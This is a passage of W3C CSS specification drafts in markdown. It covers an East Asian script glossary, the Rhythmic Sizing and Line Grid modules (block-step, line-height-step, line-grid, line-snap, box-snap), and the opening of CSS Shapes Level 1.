  Bopomofo letters belong to the `Bopomofo` Unicode script (and are currently mapped in the U+3100–312F and U+31A0–31BF blocks); the Bopomofo tone marks are U+02C9 (ˉ), U+02CA (ˊ), U+02C7 (ˇ), U+02CB (ˋ), U+02EA (˪), U+02EB (˫), U+02D9 (˙). Collectively these are all considered **Bopomofo characters** for the purpose of CSS.

**Hanja (Korean: 漢字)**

: Subset of the Korean writing system that utilizes ideographic characters borrowed or adapted from the Chinese writing system. Also see [Kanji](#css-ruby-1:g-kanji).

**Hiragana (Japanese: 平仮名)**

: Japanese syllabic script, or character of that script. Rounded and cursive in appearance. Subset of the Japanese writing system, used together with kanji and katakana. In recent times, mostly used to write Japanese words when kanji are not available or appropriate, and word endings and particles. Also see [Katakana](#css-ruby-1:g-katakana).

**Ideograph**

: A character that is used to represent an idea, word, or word component, in contrast to a character from an alphabetic or syllabic script. The most well-known ideographic script is used (with some variation) in East Asia (China, Japan, Korea,...).

**Kana (Japanese: 仮名)**

: Collective term for hiragana and katakana.

**Kanji (Japanese: 漢字)**

: Japanese term for ideographs; ideographs used in Japanese. Subset of the Japanese writing system, used together with hiragana and katakana. Also see [Hanja](#css-ruby-1:g-hanja).

**Katakana (Japanese: 片仮名)**

: Japanese syllabic script, or character of that script. Angular in appearance. Subset of the Japanese writing system, used together with kanji and hiragana. In recent times, mainly used to write foreign words. Also see [Hiragana](#css-ruby-1:g-hiragana).

---

## CSS Rhythmic Sizing Module Level 1 {#css-rhythm-1}

- **Shortname:** `css-rhythm-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-rhythm/](https://drafts.csswg.org/css-rhythm/)
- **Published TR:** [https://www.w3.org/TR/css-rhythm-1/](https://www.w3.org/TR/css-rhythm-1/)
- **W3C Status:** WD (exploring)
- **Last Edited:** 2026-10-08

### 1. Introduction {#css-rhythm-1:intro}

This specification provides features to control sizes of CSS objects according to the rules desired by use cases.

Controlling sizes of CSS objects to be multiple of a **step unit** is desired in many cases. This level of the specification focuses on following cases.

- Adjust heights of block-level boxes to multiples of the specified length.
- Adjust heights of line boxes to multiples of the specified length.

By stacking blocks at multiples, authors can align content across columns, pages, scroll-snapped bocks or multiple blocks placed absolutely to maintain vertical rhythm.

Also by controlling heights of line boxes, lines of text in different fonts can create consistent visuals to help readability.

[](../css-rhythm-1/examples/snap-height.html)

Vertical rhythm kept through pictures and different size of text in a multi-column document.

#### 1.1. East Asian Casual Vertical Rhythms {#css-rhythm-1:eastasia}

In East Asia, a casual variant of vertical rhythm is widely used.

Vertical rhythm is typically used in professional typography. While it improves readability, its spacing constraints require careful and well-thought design of spaces.

The East Asian casual variant was originally a product of technical constraints of traditional word processors in '80s. But when the technical constraints were lifted in more modern technologies, with the help of square-like visual of ideographic characters, East Asian authors preferred to keep parts of the characteristics.

In this variant of vertical rhythm, the requirement is loosened for the ease of use for non-professional authors. Text is still on the rhythm, so that the majority of ideographic characters are mostly on grid, but when author specifies borders, margins, or some other objects that may break the rhythm, the rhythm is shifted rather than forced. The strict vertical rhythm often surprises non-professional authors by forced jumps in such cases, while this variant combines rhythm on text and the ease of use for non-professional authors.

This variant was very widely accepted in East Asia since the middle of '90s, such that most major word processors used in East Asia provided similar features by default.

In East Asian publishing typography, the vertical rhythm is one of important properties, but its priority compared to other properties varies by types of documents. In single column documents, the priority is weaker than that of multi-column documents. Text should be on the vertical rhythm, but it is often preferred for borders, margins, or other properties to win over the rhythm. In such cases, the rhythm is shifted, similar to the casual variant.

In this specification, when the `line-height-step` property is used without combination of the `block-step` property or the `line-grid` property, it produces the similar effect as the East Asian casual vertical rhythm.

It may also serve good for East Asian publishing typography, depends on the desired strength of the vertical rhythm.

For other cases of vertical rhythm, it is expected that the `block-step` property or the `line-grid` property are used, or that the `line-height-step` property is used together with them.

#### 1.2. Value Definitions {#css-rhythm-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Adjusting Block-level Box Heights {#css-rhythm-1:block-height}

The most common typographic rhythm problems are block-level intrusions: when continuous paragraph-level text is interrupted by differently-sized content such as illustrations and headings, then the line-to-line rhythm can be thrown off. The block step properties allow such elements to be fitted to the rhythmic interval by constraining their height to a multiple of a specified step size. This allows content before and after the interruption to maintain a continuous rhythm.


Heads and blockquotes have varying font sizes and line heights, resulting in uneven text across columns.


Space inserted before and after blocks (shown with colored borders) restores vertical rhythm.

While consistent use of the block step properties can produce the strictly gridded layout needed for parallel content flows, per-element specification of the step size also allows some interruptions to take their natural size in the flow, restarting the vertical rhythm afterwards. This can be useful in single-column layouts where the vertical rhythm is important to maintain visual continuity, but there is nothing alongside to align to. In these cases, large interruptions which visually disconnect the flow before and after can prioritize optimal spacing around the item over strict adherence to a continuous grid (by specifying `block-step: none`, the initial value).

> **Issue:** This proposal can be simplified down to just the `block-step-size` property, represented solely through its shortened form as `block-step`. This level will likely at most contain `block-step-size` and `block-step-insert`, leaving `block-step-align` and `block-step-round` to be added if the future demands. The full design is described herein for current discussion and future reference.

> **Issue:** This proposal is currently defined to apply only to block-level boxes. This limitation is solely to simplify the first iteration; it should eventually be extended to all layout modes that honor specified heights.

#### 2.1. Specifying the Step Size: the `block-step-size` property {#css-rhythm-1:block-step-size}

| Field | Value |
| --- | --- |
| Name: | **block-step-size** |
| [Value:](#css-values-4:value-defs) | none \| `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword or absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property defines the step unit for a block-level box’s block size. When the step unit is set to a positive `<length>`, the box’s outer height is rounded (see `block-step-round`) to the closest multiple of the unit. Negative <length> values are invalid.

Values other than `none` cause the box to establish an independent formatting context.

> **Note:** This is to avoid complications from an ancestor’s float protruding into the box: changing its effective top margin or padding could change which content is impacted by the float and by how much, requiring relayout (and potentially creating a cycle, if the box’s height depends on its contents).

> **Issue:** Is this the best way to break such cycles? [[Issue #1901]](https://github.com/w3c/csswg-drafts/issues/1901)

In situations where margins [collapse](#css2:collapsing-margins), only the box’s own margin is considered in calculating its outer size.

When a box fragments, step sizing is applied per fragment.

> **Issue:** Should we align this with the `text-box-edge`/`text-box-trim` model of inheritance and application? [[Issue #1902]](https://github.com/w3c/csswg-drafts/issues/1902)

#### 2.2. Specifying the Spacing Type: the `block-step-insert` property {#css-rhythm-1:block-step-insert}

| Field | Value |
| --- | --- |
| Name: | **block-step-insert** |
| [Value:](#css-values-4:value-defs) | margin-box \| padding-box \| content-box |
| [Initial:](#css-cascade-6:initial-values) | margin-box |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether extra spacing derived from applying `block-step-size` is inserted as extra space inside (like `padding`) or outside (like `margin`) the box’s border, or changes the height available to content (like `min-height` or `max-height`).

Values have the following meanings:

****margin-box****

: Any extra space resulting from a `block-step-size`-induced adjustment is inserted outside the box’s border, as extra margin.

****padding-box****

: Any extra space resulting from a `block-step-size`-induced adjustment is inserted inside the box’s border, as extra padding.

****content-box****

: Any extra space resulting from a `block-step-size`-induced adjustment is inserted inside the box’s border by increasing the height of the content area.

#### 2.3. Specifying Alignment: the `block-step-align` property {#css-rhythm-1:block-step-align}

| Field | Value |
| --- | --- |
| Name: | **block-step-align** |
| [Value:](#css-values-4:value-defs) | auto \| center \| start \| end |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether extra spacing derived from applying `block-step-size` is inserted before, inserted after, or split between both sides of the box.

Values have the following meanings:

****auto****

: If `block-step-insert` is `margin-box`: if `align-self` is `start`, `end`, or `center`, treat as that value, otherwise treat as `center`.

****center****

: Any extra space resulting from a `block-step-size`-induced adjustment is split, and applied half on either side of the box.

****start****

: Any extra space resulting from a `block-step-size`-induced adjustment is inserted on the end side of the box.

****end****

: Any extra space resulting from a `block-step-size`-induced adjustment is inserted on the start side of the box.

> **Issue:** Define interaction with `align-content`. [[Issue #11206]](https://github.com/w3c/csswg-drafts/issues/11206)

In all cases, additional spacing cannot be added to margins that are truncated or omitted due to unforced fragmentation breaks (see [CSS3-PAGE] and [CSS-BREAK-3]); therefore if `block-step-insert` is `margin-box`, all extra space derived from applying `block-step-size` must be inserted on the opposite side of the fragment (regardless of `block-step-align`).

> **Issue:** Is this rule correct? Or should we honor `block-step-align` even at fragmentation boundaries? [[Issue #1260]](https://github.com/w3c/csswg-drafts/issues/1260)

#### 2.4. Rounding Method: the `block-step-round` property {#css-rhythm-1:block-step-round}

| Field | Value |
| --- | --- |
| Name: | **block-step-round** |
| [Value:](#css-values-4:value-defs) | up \| down \| nearest |
| [Initial:](#css-cascade-6:initial-values) | up |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property specifies whether adjustments due to `block-step-size` insert positive or negative space.

Values have the following meanings:

****up****

: The outer size of the box is *increased* (positive space is inserted) to fulfill the `block-step-size` constraint.

****down****

: The outer size of the box is *decreased* (negative space is inserted) to fulfill the `block-step-size` constraint.

****nearest****

: The outer size of the box is either *increased* (as for `up`) or *decreased* (as for `down`—​whichever results in the smallest absolute change—​to fulfill the `block-step-size` constraint. If both options would result in the same amount of change, the size is increased.

#### 2.5. Block Step Adjustment Shorthand: the `block-step` shorthand {#css-rhythm-1:block-step}

| Field | Value |
| --- | --- |
| Name: | **block-step** |
| [Value:](#css-values-4:value-defs) | `<'block-step-size'>` \|\| `<'block-step-insert'>` \|\| `<'block-step-align'>` \|\| `<'block-step-round'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property allows for setting `block-step-size`, `block-step-insert`, `block-step-align`, and `block-step-round` in one declaration. Omitted values are set to the property’s initial value.

**Authors are advised to use this shorthand rather than the longhands unless there is a specific need for its individual longhands to cascade independently.**

### 3. Adjusting Line Box Heights: the `line-height-step` property {#css-rhythm-1:line-height-step}

| Field | Value |
| --- | --- |
| Name: | **line-height-step** |
| [Value:](#css-values-4:value-defs) | `<length [0,∞]>` |
| [Initial:](#css-cascade-6:initial-values) | 0 |
| [Applies to:](#css-cascade-5:applies-to) | block containers |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | absolute length |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property defines the step unit for line box heights. A step unit is the length of the vertical rhythm, usually the distance from one baseline to the next baseline of the body text. Body text should fit into one step unit, and taller lines such as headings should have heights of two or more step units. Vertical rhythm is created by making heights of all lines an integer multiple of the step unit.

When the step unit is set to a positive `<length>`, the line box heights are rounded *up* to the closest multiple of the unit. Negative <length> values are invalid.

[CSS2] [§10.8 Line height calculations](#css2:line-height) defines how to compute the height of a line box from its inline-level content. The rounding is applied to the resulting height of the line box, and the additional space is distributed to over-side and under-side of the line box equally, so that the original line box appears at the center of the multiple of step unit. This adjustment is done by assuming that there is an inline-level box that has adjusted A' and D' in the line box. This inline-level box does not affect alignment points of the `vertical-align` property, except values that align relative to the line box.


Rounding up the computed line box height.

> **Issue:** Should this be animatable? There doesn’t seem to be use cases but needed for consistency?

> **Example:** 
>
> In the following example, the height of line box in each paragraph is rounded up to the step unit.
>
> ```css
> :root {
>   font-size: 12pt;
>   --my-grid: 18pt;
>   line-height-step: var(--my-grid);
> }
> h1 {
>   font-size: 20pt;
>   margin-top: calc(2 * var(--my-grid));
> }
> p {
>   margin: 0;
> }
> ```
>
> The line box in `<h1>` does not fit into one step unit and thus occupies two, but it is still centered within the two step unit.

> **Example:** Authors can keep margins or other properties to be multiple of step unit using `var()` and `calc()` as in the example above.
>
> If author prefers, tools like Sass can make such declarations shorter.
>
> ```css
> $gu: 18px;
>
> @function gu($n) {
>   @return $n * $gu;
> }
>
> h1 {
>   font-size: 20pt;
>   margin: gu(1.2) auto gu(1.8);
> }
> ```

> **Note:** It is usually recommended to set the `line-height` lower than the step unit. The used line height can increase due to several factors such as the use of `vertical-align` or font fallback.

---

## CSS Line Grid Module Level 1 {#css-line-grid-1}

- **Shortname:** `css-line-grid-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-line-grid/](https://drafts.csswg.org/css-line-grid/)
- **Published TR:** [https://www.w3.org/TR/css-line-grid-1/](https://www.w3.org/TR/css-line-grid-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2026-01-07

### 1.  Introduction {#css-line-grid-1:intro}

#### 1.1.  Background {#css-line-grid-1:context}

*This section is not normative.*

This specification provides features to align lines and blocks to invisible grids in the document.

Aligning lines and blocks to grids provides the following benefits:

- Vertical rhythm is kept for better readability.
- Lines are aligned between columns in multi-column documents.
- The top and the bottom margins of pictures are made equal, while keeping the vertical rhythm of text before and after the pictures.
- Layout lines are at the same position on every page in paged media. Keeping the position of the bottom line of a page has benefits for design and readability. This also improves the readability of duplex printing, two pages spreads, and displaying on slow display devices like e-ink.
- East Asian layouts require vertical rhythm more often than other scripts do, even in single column, non-paged media documents, as defined in [JLREQ].

There are several types of objects in a document that can break the vertical rhythm. Examples include lines with different sizes of text, pictures, and tables.


Vertical rhythm kept through pictures and different size of text in a multi-column document.

> **Example:** 
>
> Large text wraps within line grids.
>
> When a different size of text, such as a headings wraps, it is usually aligned to grids as a block and the lines within the block do not align.

Sidenotes (and footnotes for that matter) are often set at a smaller size than the basic text. This smaller text should still line up with the basic text. Authors can try to achieve this effect by calculating appropriate font-size, line-height, and margins*, but lack the proper tools to get the baselines to align.

Even if the author controls all this, the baselines won’t align. And careful calculations can be thrown off by user stylesheets.

Sidenotes are set at a smaller size, and baselines don’t align.


Sidenote with baselines aligned to the body text.


East Asian layouts may require width be a multiple of *em* without fractions.

East Asian layouts may require grid-like features in inline progression direction as well.

It is often desirable in East Asian layouts to make the line width a multiple of *em* without fractions. Because most East Asian characters have 1em advance and most East Asian documents are justified, this minimizes cases where justification needs to expand character spacing.

This module provides the following capabilities:

- Defining grids in the line progression direction.
- Controlling how lines and blocks align to the grids.

It is important to control these capabilities independently, so that, for example, aligning to grids can be turned off for tables, but can then be turned back on for aligning the following text to the grids.

#### 1.2.  Module Interactions {#css-line-grid-1:placement}

This module extends the line box model defined in [CSS2] sections 9.4.2 and 10.8.

#### 1.3.  Value Definitions {#css-line-grid-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2.  Defining a **Line Grid**: the `line-grid` property {#css-line-grid-1:line-grid-property}

| Field | Value |
| --- | --- |
| Name: | **line-grid** |
| [Value:](#css-values-4:value-defs) | match-parent \| create |
| [Initial:](#css-cascade-6:initial-values) | match-parent |
| [Applies to:](#css-cascade-5:applies-to) | block, flex and grid containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies whether this box creates a new baseline grid for its descendants or uses the same baseline grid as its parent. (Each box always has an associated line grid. However, whether a box or its contents snap to a line grid is determined by `line-snap` and `box-snap`.)

The values of this property have the following meanings:

****match-parent****

: Box assumes the line grid of its parent if its writing mode is the same as its parent. If the box has a writing mode that is different than its parent, then the box creates a new line grid as `create` below.

****create****

: Box creates a new line grid using its own font and line layout settings, including any adjustment to the line height caused by the `line-height-step` property. The line grid consists of a series of horizontal lines corresponding to all the baselines (alphabetic, text-top, text-bottom, mathematic, central, hanging, etc.) and to the line-over and line-under edges, positioned where they would fall if the contents of this element consisted entirely of line boxes filled with text (no sub-elements) using the first available font. If the box is paginated, the line grid is restarted on each page; since line boxes cannot be fragmented, no page begins with the bottom part of a line’s grid.

The initial containing block establishes a line grid using the font and line layout settings of the root element. If the root element (which has no parent) has a value of `match-parent`, then it adopts the line grid of the initial containing block.

In paged media, if the page context applying to a particular page specifies `line-grid: create`, then a line grid for that page is established using the page context’s font and line layout settings applied to the page box (including its margins), and for layout within that page the initial containing block is assumed to have adopted this line grid.

> **Example:** Since the initial value of `line-grid` is `match-parent`, by default a line grid is automatically created using the root element’s font and line height settings to fill the initial containing block / page area. When all pages of a document are the same size, this will result in a consistent line grid that exactly aligns to the top of each page area.
>
> It is sometimes appropriate for the line grid to begin with the content, after the root element’s margins/padding/border and/or other header content. To do this, the root element (or some other element) can be told to establish the line grid.
>
> ```
> main { line-grid: create; }
> ```
>
> If this line grid is then paginated, the line grid will start at the top of each page area after the first.
>
> In other cases, it’s desirable for all pages of a document share a common line grid, even if page margins, border and/or padding change. The following rule will instead fill the page box area *including* the page margin/padding/borders with the line grid:
>
> ```
> @page { line-grid: create; }
> ```
>
> As this line grid is paginated, it will start at the top of each page box after the first; however it might not align to the top of the page area (where the content would normally begin).

> **Issue:** The names of these values is currently up for debate. Current suggestions for match-parent include match-parent and normal; those for create include create and new.

> **Note:** The original proposal for line grids allowed an element to create a named grid. This property could still be extended to do this in the future.

> **Note:** There might need to be an offset for more complicated designs. How to set this offset is problematic: usually it’s not a fixed length, but the distance to clear some header content. This could be added to a later level of css-line-grid.

### 3.  Snapping to a Grid {#css-line-grid-1:grid-snapping}

The `line-snap` and `box-snap` properties cause line boxes and block boxes to shift position in order to align to the line grid. Shifting boxes in this way affects layout – it is not merely a display translation. If a line box is shifted, then subsequent line boxes will be laid out using the new shifted position as input to their line stacking rules. If a block box is shifted, then subsequent boxes will be laid out using the new shifted position as input.

#### 3.1.  Snapping Line Boxes: the `line-snap` property {#css-line-grid-1:line-snap}

| Field | Value |
| --- | --- |
| Name: | **line-snap** |
| [Value:](#css-values-4:value-defs) | none \| baseline \| contain |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block container elements |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | specified keyword |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property applies to all the line boxes directly contained by the element, and, when not none, causes each line box to shift (usually downward, possibly by zero) until it snaps to the line grid specified by `line-grid`. (The unshifted position is the position that would be determined by normal line stacking rules, with consideration of any new controls defined by other modules such as [CSS3LINE].)

Values have the following meanings:

****none****

: Line boxes do not snap to the grid; they stack normally.

****baseline****

: The dominant baseline snaps with the matching baseline on the line grid applying to the element.

****contain****

: Two baselines are used to align the line box: the line box is snapped so that its [central](#css-inline-3:central) baseline is centered between one of the line grid’s [text-over-edge](#css-inline-3:text-over-edge) baselines and a subsequent (but not necessarily consecutive) [text-under-edge](#css-inline-3:text-under-edge) baseline.

> **Example:** Line boxes almost always shift downward (towards the block-end direction) when snapping to a line grid. Here there are three lines with 20px line-height and line-snap:baseline that should snap to a 30px line grid. Each line box shifts down so that the baselines align with the grid lines.
>
> 
>
> Before line snapping
>
> 
>
> After line snapping
>
> In the figures below, there are two additional lines from h3 elements with line-snap:none. These lines do not shift to align to the grid, but their positions can change based on the shifting of lines around them. In this example, lines 1 2 and 3 shift down to snap their baselines to the grid lines, and line B has normal line box placement just below the line above.
>
> 
>
> Before line snapping
>
> 
>
> After line snapping

#### 3.2.  Snapping Block Boxes: the `box-snap` property {#css-line-grid-1:box-snap}

> **Issue:** This is a rough draft of trying to solve the box-snapping problem.

> **Issue:** Some optional box values (margin-box, border-box) could be added to the before and after values to allow snapping various box model edges to the line grid.

> **Issue:** An auto value could be useful - one that defaults to center, but snaps to before if it’s the first block in a fragment container, and snaps to after if it’s the last block in a fragment container.

| Field | Value |
| --- | --- |
| Name: | **box-snap** |
| [Value:](#css-values-4:value-defs) | none \| block-start \| block-end \| center \| baseline \| last-baseline |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | block-level boxes and internal table elements except table cells |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | N/A |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

Specifies how the block is snapped to the baseline grid.

Values have the following meanings:

****none****

: The block is not snapped to any grid.

****block-start****

: The block-start edge is snapped to the nearest grid line.

****block-end****

: The block-end edge is snapped to the nearest grid line.

****center****

: The block is centered between one of the baseline grid’s text-over baselines and a subsequent (but not necessarily consecutive) text-under baseline.

****baseline****

: The first line box’s dominant baseline is snapped to the nearest grid line.

****last-baseline****

: The last line box’s dominant baseline is snapped to the nearest grid line.

Snapping block boxes always uses the line grid of the box parent (a block’s own line grid has no effect on box snapping). If the box is an empty block that could be [collapsed through](#css2), then this property has no effect. [CSS2]

To snap a block-level element to a grid line, take the unsnapped result of layout (including margin collapsing, clearance, etc.) as the block’s initial position, then shift the block downward (towards the block-end direction) until it snaps to the line grid.

For the `block-start` and `block-end` values, either the text-over-edge or text-under-edge baseline is chosen: whichever one is on the matching side of the central baseline. For example, when snapping the block-start edge in horizontal writing mode, the text-over-edge is chosen. In some cases the text-under-edge might be used instead for the block-start edge: for example, when the writing mode of the line grid doesn’t match that of the affected element, or when due to the `text-orientation` settings the text-under-edge corresponds to the block-start edge.

When applied to table row group and table row boxes, `box-snap` only affects the before and after edges, and only if those edges are not at the beginning or end of the table, respectively. To snap a before edge on a table row or row group, the preceding row’s height is increased. To snap an after edge on a table row or row group, the affected row’s height is increased.

When applied to table column group and table column boxes, `box-snap` only affects the start and end edges, and only if those edges are not at the start or end of the table, respectively. How the space is redistributed among columns to satisfy snapping constraints is not defined, however:

- In an auto-sized table no column may be smaller than its minimum content width.
- The resulting table must not exceed its original measure if it had a non-auto measure.
- The adjusted widths must not cause the table to overflow its containing block any more than it would with `box-snap: none`.

To satisfy these constraints, some column edges may remain unsnapped.

> **Issue:** Going forward, we could add a 2-d box-snap with more controls and to also extend it to handle snapping to an explicit layout grid (not just the baseline grid). Current thoughts are for box-snap to break out into longhands; the current block-snap property should thus be a subset of its expected future values. Below is an outline of the structure. (This may, of course, change.)
>
> ```
> box-snap
>   +- block-snap
>   |     +- block-snap-edge
>   |     |     +- block-start-snap-edge: <shape-box>
>   |     |     +- block-end-snap-edge: <shape-box>
>   |     +- block-snap-align: <content-position>
>   |     +- block-snap-grid: text-grid | <custom-ident> /* name of grid/gridlines */
>   +- inline-snap
>         +- inline-snap-edge
>         |     +- inline-start-snap-edge: <shape-box>
>         |     +- inline-end-snap-edge: <shape-box>
>         +- inline-snap-align: <content-position>
>         +- inline-snap-grid: text-grid | <custom-ident> /* name of grid/gridlines */
>
> where <shape-box> includes
>   margin-box | border-box | half-border-box | padding-box | content-box
> and <content-position> includes
>   start | end | stretch | first-baseline | last-baseline | center
> ```

### 4.  Snapping Details {#css-line-grid-1:snap-details}

#### 4.1.  Interacting with other alignments {#css-line-grid-1:alignment-interactions}

An element can have additional block layout constraints (such as centering or `box-snap`) that can complicate line snapping. In these cases, implementations must produce the same result as the steps below:

- Line snap as if the layout constraint does not apply
- Apply the layout constraint to the block
- Adjust exactly one line box shift or space at the beginning or end of the block such that all of the snapping lines meet the line grid while maintaining the block layout constraint. The single adjustment chosen must be the smallest shift needed to achieve the result without causing overflow.

> **Example:** A block containing lines to snap might not be top-aligned within its container. In the figures below, the block containing the elements is centered. In a centered situation, you have to align baselines while maintaining centering. This can be done in two shift-and-center steps.
>
> First, shift the snapping lines as if the block was top-aligned (as in figure 9 above), then remove the shift for the very first snapping line. After removing the first shift, try centering the block. This is almost certain to throw the baseline alignment off. You can see one such result in the partial shifting figure below.
>
> Second, measure the distance from the first snapped line’s baseline to the grid lines above and below, looking for the closest grid line to that baseline.
>
> If the closest grid line is in the block-start direction, then add space below the last line in the block equal to twice that distance. Then the block is centered again, which will align all of the snapped lines to the grid.
>
> 
>
> Partial shifting
>
> 
>
> Full line snapping
>
> If the closest grid line is in the block-end direction, then the first snapped line is shifted downward by twice that distance. Then the block is centered again, which will again align all of the snapped lines to the grid.
>
> 
>
> Partial shifting
>
> 
>
> Full line snapping

> **Example:** An end-aligned block also uses two steps, but is simpler than the centered case.
>
> First, shift the snapping lines as if there were no end-alignment (as in figure 9 above), then end-align the block.
>
> Second, shift the entire block contents upwards until the last snapped line aligns to a grid line. In this example, the shift is very minor.
>
> 
>
> Before snapping
>
> 
>
> After line snapping

#### 4.2.  Leading adjustments {#css-line-grid-1:leading-adjustments}

In some cases lines of equal line height will not align perfectly to a baseline grid: this happens, for example, when fonts (of the same size) with different baseline tables are mixed on a line. In these cases, removing top half-leading can sometimes be the correct thing to do, but must be limited to the amount of baseline discrepancy so as not to trigger in other cases.

> **Issue:** Details to follow. It’s complicated when you have more than one font-size or line-height in a single line box.

---

## CSS Shapes Module Level 1 {#css-shapes-1}

- **Shortname:** `css-shapes-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-shapes/](https://drafts.csswg.org/css-shapes/)
- **Published TR:** [https://www.w3.org/TR/css-shapes/](https://www.w3.org/TR/css-shapes/)
- **W3C Status:** ED (testing)
- **Last Edited:** 2026-11-16

### 1.  Introduction {#css-shapes-1:intro}

*This section is not normative.*

Shapes define arbitrary geometries that can be used as CSS values. This specification defines properties to control the geometry of an element’s float area. The `shape-outside` property uses shape values to define the float area for a float.

> **Note:** Future levels of CSS Shapes will allow use of shapes on elements other than floats. Other CSS modules can make use of shapes as well, such as CSS Masking [CSS-MASKING] and CSS Exclusions [CSS3-EXCLUSIONS].

> **Note:** If a user agent implements both CSS Shapes and CSS Exclusions, the `shape-outside` property defines the exclusion area for an exclusion.

> **Note:** A future level of CSS Shapes will define a shape-inside property, which will define a shape to wrap content within the element.

#### 1.1.  Module Interactions {#css-shapes-1:module-interactions}

This module extends the float features defined in [CSS2] chapter 9.

#### 1.2. Values {#css-shapes-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS2] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

#### 1.3.  Terminology {#css-shapes-1:terminology}

**Wrap**

This specification uses the term wrap to refer to flowing content around the sides of a float area, defined in [CSS2] chapter 9. Content wraps around the right side of a left-floated box, and content wraps around the left side of a right-floated box. One result of this wrapping is that line boxes next to a float are shortened as necessary to avoid intersections with the float area.

**Float area**

The area used for wrapping content around a float element. The rules for float behavior use the sides of the float area to determine where content flows. By default, the float area is the float element’s margin box (note this can be different than the float area produced by the `margin-box` value, which includes border-radius curvature). This specification’s `shape-outside` and `shape-margin` properties can be used to define an arbitrary, non-rectangular float area.

**direction-agnostic size** The direction-agnostic size of a box is equal to the length of the diagonal of the box, divided by sqrt(2).

> **Note:** This is a method of averaging the width and height of a box used by SVG in some cases, when a percentage of a box’s size is desired but the context doesn’t specifically favor the width or the height. For square boxes, this is the same as the width/height.

### 2.  Relation to the box model and float behavior {#css-shapes-1:relation-to-box-model-and-float-behavior}

While the boundaries used for wrapping inline flow content outside a float can be defined using shapes, the actual box model does not change. If the element has specified margins, borders or padding they will be computed and rendered according to the [CSS3BOX] module. Also, float positioning and stacking are not affected by defining a float area with a shape.

When a shape is used to define a float area, the shape is clipped to the float’s margin box. In other words, a shape can only ever reduce a float area, not increase it. A reduced float area may have no effect on some line boxes that would normally be affected by the float. If a shape does not enclose any area, the shape’s edges are still used to define the float area.

A float area defined by a shape may reduce the normal float area on all sides, but this does not allow content to wrap on both sides of a float. Left floats with a `shape-outside` still only allow content wrapping on the right side, and right floats only allow wrapping on the left.

